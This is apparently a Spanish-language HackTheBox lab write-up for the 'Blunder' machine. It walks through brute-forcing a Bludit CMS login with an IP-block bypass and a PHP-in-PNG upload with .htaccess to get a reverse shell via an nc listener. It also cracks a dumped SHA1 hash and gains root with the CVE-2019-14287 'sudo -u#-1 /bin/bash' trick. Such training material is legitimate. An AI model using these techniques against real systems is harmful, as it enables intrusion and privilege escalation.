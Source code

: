 ```yaml
---
title: Blunder
published: 2025-08-09
image: "./logo.png"
tags: [Easy, Bludit CMS, Bypassing IP Blocking, Directory Traversal, Playing with .htaccess, Image File Upload, CVE-2019-14287, eWPT, OSWE, eWPTXv2]
category: HackTheBox
---
```


## Información Básica

### Técnicas vistas

- Bludit CMS Exploitation
- Bypassing IP Blocking (X-Forwarded-For Header)
- Directory Traversal Image File Upload (Playing with .htaccess)
- Abusing sudo privilege (CVE-2019-14287)

### Preparación

- eWPT
- OSWE
- eWPTXv2

***

## Reconocimiento

### Nmap

#### Apache (80)

```
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Blunder | A blunder of interesting facts
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-favicon: Unknown favicon MD5: A0F0E5D852F0E3783AF700B6EE9D00DA
|_http-generator: Blunder
```

### Fuzzing

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FzibESK5M60iAKvmcWiwz%2Fimage.png?alt=media&#x26;token=46f40d98-e4f3-4d34-a4ab-283f4a7606b5" alt=""><figcaption></figcaption></figure>

Haciendo un poco de fuzzing encontramos varias rutas interesantes, como **todo.txt**:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2Fzb9bywleghI4vAqH8Pzn%2Fimage.png?alt=media&#x26;token=af3e33d5-7134-420a-8013-6b21e316fb0d" alt=""><figcaption></figcaption></figure>

Y la ruta `/admin`:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FoSS3t4nHnwQcW6oD2Ayd%2Fimage.png?alt=media&#x26;token=9f10f54a-a2ca-4328-b15a-c2bf311537f3" alt=""><figcaption></figcaption></figure>

Si intentamos hacer brute force, veremos el siguiente mensaje:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F0PBfTRicA8csTboIcxYH%2Fimage.png?alt=media&#x26;token=8736094f-d885-4027-abf4-8c6f3c700caf" alt=""><figcaption></figcaption></figure>

## Explotación

Buscando exploits para este caso encontramos uno:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FjqFdKmfX5MTAbUxer7Ua%2Fimage.png?alt=media&#x26;token=b7b02143-edb6-4d10-81c6-0f2f03b8fe63" alt=""><figcaption></figcaption></figure>

Lo descargamos y cambiamos el target y el wordlist, y probamos a hacer un ataque, pero con **rockyou.txt**, pero no encontramos nada. Probamos a hacer un diccionario propio con **cewl** basándonos en la propia web:

```
cewl -m 4 http://10.10.10.191 | sort -u > wordlist
```

Finalmente encontramos la contraseña para el usuario **fergus**:

```
SUCCESS: Password found!
Use fergus:RolandDeschain to login.
```

### Searchsploit

Sabiendo esto podemos buscar algun exploit en **searchsploit**:

```
❯ searchsploit bludit
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                       |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Bludit  3.9.2 - Authentication Bruteforce Mitigation Bypass                                                                                          | php/webapps/48746.rb
Bludit - Directory Traversal Image File Upload (Metasploit)                                                                                          | php/remote/47699.rb
Bludit 3-14-1 Plugin 'UploadPlugin' - Remote Code Execution (RCE) (Authenticated)                                                                    | php/webapps/51160.txt
Bludit 3.13.1 - 'username' Cross Site Scripting (XSS)                                                                                                | php/webapps/50529.txt
Bludit 3.9.12 - Directory Traversal                                                                                                                  | php/webapps/48568.py
Bludit 3.9.2 - Auth Bruteforce Bypass                                                                                                                | php/webapps/48942.py
Bludit 3.9.2 - Authentication Bruteforce Bypass (Metasploit)                                                                                         | php/webapps/49037.rb
Bludit 3.9.2 - Directory Traversal                                                                                                                   | multiple/webapps/48701.txt
Bludit 4.0.0-rc-2 - Account takeover                                                                                                                 | php/webapps/51360.txt
Bludit < 3.13.1 Backup Plugin - Arbitrary File Download (Authenticated)                                                                              | php/webapps/51541.py
Bludit CMS v3.14.1 - Stored Cross-Site Scripting (XSS) (Authenticated)                                                                               | php/webapps/51476.txt
bludit Pages Editor 3.0.0 - Arbitrary File Upload                                                                                                    | php/webapps/46060.txt
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

```
❯ searchsploit -m multiple/webapps/48701.txt
  Exploit: Bludit 3.9.2 - Directory Traversal
      URL: https://www.exploit-db.com/exploits/48701
     Path: /usr/share/exploitdb/exploits/multiple/webapps/48701.txt
    Codes: CVE-2019-16113
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/zelpro/HTB/Blunder/exploits/48701.txt
```

Este exploit tiene instrucciones de uso:

```
#### USAGE ####
# 1. Create payloads: .png with PHP payload and the .htaccess to treat .pngs like PHP
# 2. Change hardcoded values: URL is your target webapp, username and password is admin creds to get to the admin dir
# 3. Run the exploit
# 4. Start a listener to match your payload: `nc -nlvp 53`, meterpreter multi handler, etc
# 5. Visit your target web app and open the evil picture: visit url + /bl-content/tmp/temp/evil.png
```

### Shell www-data

Y ya tendremos una reverse shell con el usario **www-data**:

```
❯ nc -lvnp 53
listening on [any] 53 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.191] 36532
whoami
www-data
```

Buscando información sobre el usuario **hugo** de la máquina víctima, en la ruta `/var/www/bludit-3.10.0a`, podemos encontrar el `users.php`:

```
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```

Podemos ver que la contraseña es un **hash** de tipo **SHA1**, lo descifraremos con la web: [https://md5decrypt.net/en/Sha1/](https://md5decrypt.net/en/Sha1/#google_vignette):&#x20;

```
faca404fd5c0a31cf1897b823c695c85cffeb98d : Password120
```

Y ya tendriamos la **user flag**:

```
hugo@blunder:~$ cat user.txt 
fd6b01457fe62583...
```

## Escalada de privilegios

Con el comando `sudo -l` podremos ver los comandos que puede ejecutar el usuario actual con permisos de superusuario:

```
hugo@blunder:~$ sudo -l
Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

Esto significa que el usuario hugo puede ejecutar `/bin/bash` como otros usuarios excepto como **root**. Vamos a buscar exploits relacionados:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FxUIcV9lokZW9zi5HCItD%2Fimage.png?alt=media&#x26;token=d47c7903-cfe5-4c3d-af2b-c845b557de4b" alt=""><figcaption></figcaption></figure>

### Abusing sudo privilege (CVE-2019-14287)

Este tiene una situación igual a la que tenemos, es para la versión 1.8.27, vamos a comprobar cuál tenemos:

```
hugo@blunder:~$ sudo -V
Sudo version 1.8.25p1
Sudoers policy plugin version 1.8.25p1
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.25p1
```

Tenemos una versión compatible con el exploit, en la información nos dice que con este comando `sudo -u#-1 /bin/bash` obtendremos root:

```
hugo@blunder:~$ sudo -u#-1 /bin/bash
Password: 
root@blunder:/home/hugo# id
uid=0(root) gid=1001(hugo) groups=1001(hugo)
root@blunder:/home/hugo# whoami
root
root@blunder:/home/hugo# cd /root/
root@blunder:/root# ls
log  reset.sh  root.txt  snap
root@blunder:/root# cat root.txt 
0b5c1bbffde405138...
```

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/254)

---